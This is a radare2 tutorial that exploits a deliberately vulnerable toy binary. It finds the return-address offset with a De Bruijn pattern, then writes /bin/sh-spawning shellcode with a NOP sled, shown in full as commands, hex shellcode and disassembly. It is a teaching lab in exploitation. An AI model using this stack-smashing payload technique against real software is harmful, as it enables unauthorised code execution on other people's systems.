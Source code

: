 # Tutorial 4 - Simple Exploit

Let's try to exploit the simplest binary imaginable.

```
r2 -Ad ./hackme
```

First, let's check if any security mechanisms are used.

```
[0xf7704d00]> iI~canary,nx,pic
pic      false
canary   false
nx       false
```

We're in luck! Let's see what the binary does.

```
╒ (fcn) sym.main 36
│           ; arg int arg_4h @ esp+0x4
│           ; DATA XREF from 0x08048317 (entry0)
│           0x08048412      8d4c2404       lea ecx, [esp + arg_4h]     ; 0x4 ; 4
│           0x08048416      83e4f0         and esp, 0xfffffff0
│           0x08048419      ff71fc         push dword [ecx - 4]
│           0x0804841c      55             push ebp
│           0x0804841d      89e5           mov ebp, esp
│           0x0804841f      51             push ecx
│           0x08048420      83ec04         sub esp, 4
│           0x08048423      e8d3ffffff     call sym.play
│           0x08048428      b800000000     mov eax, 0
│           0x0804842d      83c404         add esp, 4
│           0x08048430      59             pop ecx
│           0x08048431      5d             pop ebp
│           0x08048432      8d61fc         lea esp, [ecx - 4]
╘           0x08048435      c3             ret
```

**main** seems to call **play** and nothing else. Let's see what the **play** function does.

```
[0x08048412]> pdf @ sym.play
╒ (fcn) sym.play 23
│           ; var int local_48h @ ebp-0x48
│           ; CALL XREF from 0x08048423 (sym.main)
│           0x080483fb      55             push ebp
│           0x080483fc      89e5           mov ebp, esp
│           0x080483fe      83ec48         sub esp, 0x48
│           0x08048401      83ec0c         sub esp, 0xc
│           0x08048404      8d45b8         lea eax, [ebp - local_48h]
│           0x08048407      50             push eax
│           0x08048408      e8c3feffff     call sym.imp.gets
│           0x0804840d      83c410         add esp, 0x10
│           0x08048410      c9             leave
╘           0x08048411      c3             ret
```

**play** calls **gets**, which is a very unsafe function.

Let's add a breakpoint right after **gets** returns, at `0x0804840d`, and then continue the execution.

```
[0x08048412]> db 0x0804840d
[0x08048412]> db
0x0804840d - 0x0804840e 1 --x sw break enabled cmd="" name="0x0804840d" module=""
[0x08048412]> dc
1234
hit breakpoint at: 804840d
attach 3680 1
[0x0804840d]> 
```

We've given the program some bogus input, but we can change that. We can see that both **eax** and the stack contain our buffer.

```
[0x0804840d]> drr~eax
oeax 0xffffffff  oeax
eax 0xffe38b90  eax stack R W X 'xor dword [edx], esi' '[stack]' (1234)
edx 0xf76e2884  (unk1) edx R W X 'add byte [eax], al' 'unk1'
[0x0804840d]> pxr @ esp!4
0xffe38b80  0xffe38b90  .... eax stack R W X 'xor dword [edx], esi' '[stack]' (1234)
```

We can overwrite eax with a [De Bruijn pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to simulate as if that was fed into stdin.

```
[0x0804840d]> wop?
|Usage: wop[DO] len @ addr | value
| wopD len [@ addr]  Write a De Bruijn Pattern of length 'len' at address 'addr'
| wopO value         Finds the given value into a De Bruijn Pattern at current offset
[0x0804840d]> wopD 100 @ eax
[0x0804840d]> ps @ eax
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
[0x0804840d]> 
```

Now we can continue execution and hope for the best.

```
[0x0804840d]> dc
hit breakpoint at: 8048410
[+] SIGNAL 11 errno=0 addr=0x41614141 code=1 ret=0
[+] signal 11 aka SIGSEGV received 0
```

Ah, yes, the program crashed because the return address on the stack has been overwritten. But at what offset relative to the start of the input buffer?

```
[0x41614141]> wopO $$
77
```

> **Note**: $$ signifies the current seek; quite handy in plenty of cases.

77 is a suspicious offset. That's because endianess needs to be taken into account.

```
[0x41614141]> wopO 0x41416141
76
```

Now we can begin to think about an input which would spawn a shell for us. We are going to need a shellcode. We can write our own in assembly or a tiny file which we can pass to ragg2, but radare2 already comes packed with a 32 bit shellcode that we can use.

```
[0x41614141]> g?
|Usage: g[wcilper] [arg]Go compile shellcodes
| g foo.r         Compile r_egg source file
| gw              Compile and write
| gc cmd=/bin/ls  Set config option for shellcodes and encoders
| gc              List all config options
| gl              List plugins (shellcodes, encoders)
| gs name args    Compile syscall name(args)
| gi exec         Compile shellcode. like ragg2 -i
| gp padding      Define padding for command
| ge xor          Specify an encoder
| gr              Reset r_egg
| EVAL VARS:      asm.arch, asm.bits, asm.os
[0x41614141]> gi exec
[0x41614141]> g
31c050682f2f7368682f62696e89e3505389e199b00bcd80
[0x41614141]> wx `g` @ eax
[0x41614141]> pd 11 @ eax
            ;-- eax:
            0xffce54c0      31c0           xor eax, eax
            0xffce54c2      50             push eax
            0xffce54c3      682f2f7368     push 0x68732f2f
            0xffce54c8      682f62696e     push 0x6e69622f
            0xffce54cd      89e3           mov ebx, esp
            0xffce54cf      50             push eax
            0xffce54d0      53             push ebx
            0xffce54d1      89e1           mov ecx, esp
            0xffce54d3      99             cdq
            0xffce54d4      b00b           mov al, 0xb                 ; 11
            0xffce54d6      cd80           int 0x80
[0x41614141]> 
```

Excellent! Our shellcode is now in eax. All that's left is to set the overwritten return address to point to the stack. Rerun the program and stop at the `ret` instruction, write the shellcode at `eax` and write the stack address at offset 76.

```
[0x0804840d]> wx `g` @ eax
[0x0804840d]> wx 40caacff @ eax+76
[0x0804840d]> pxr @ esp!4
0xffacca8c  0xffacca40  @... eax stack R W X 'xor eax, eax' '[stack]'
```

We can now see that the first value on the stack (the return address) points to our shellcode.

Of course, generating a static payload will not work, since stack addresses are randomized. Since we don't have enough space in our buffer before it reaches and overwrites the return address, we could simply continue to read into our buffer and create a giant nop sled to our shellcode.

Let's write our payload, step by step.

We'll begin by writing 76 'A's until reaching the return address. Then we'll write a stack address. After that, we change the block size to a large value, like 0x1000 and write one full block of NOPs, and finally we write our shellcode.

```
[0x0804840d]> wb 41 @ eax!76
[0x0804840d]> wx 900ea0ff @ eax+76
[0x0804840d]> b 0x1000
[0x0804840d]> wb 90 @ eax+80
[0x0804840d]> wx `g` @ eax+80+0x1000
```

Now we can dump this payload in python format into a file.

```
[0x0804840d]> pcp 80+0x1000+24 @ eax > gen.py
```

Edit the file accordingly, appending:

```
with open('payload', 'wb') as f:
	f.write(buf)
```

Then we can generate our payload and feed it to our binary. If you don't succeed after several attempts, try increasing the NOP block size.

Have fun!

